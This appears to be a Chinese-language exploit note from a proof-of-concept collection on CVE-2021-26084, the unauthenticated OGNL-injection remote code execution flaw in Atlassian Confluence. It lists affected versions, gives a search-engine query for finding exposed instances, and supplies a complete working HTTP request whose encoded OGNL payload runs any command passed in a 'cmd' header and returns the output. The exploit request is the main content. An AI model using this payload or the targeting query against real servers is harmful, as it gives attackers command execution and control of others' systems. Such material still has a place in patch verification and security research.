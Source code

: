# Atlassian Confluence doenterpagevariables.action 远程命令执行漏洞 CVE-2021-26084

## 漏洞描述

Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。

## 漏洞影响

```
Atlassian Atlassian Confluence < 7.4.11
Atlassian Atlassian Confluence < 7.11.6
Atlassian Atlassian Confluence < 7.13.0
Atlassian Atlassian Confluence < 6.13.23
Atlassian Atlassian Confluence < 7.12.5
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](images/202205241420961.png)

发送请求包

```
![](C:/Users/47236/Desktop/1.png)POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

![]()![](images/202205241420313.png)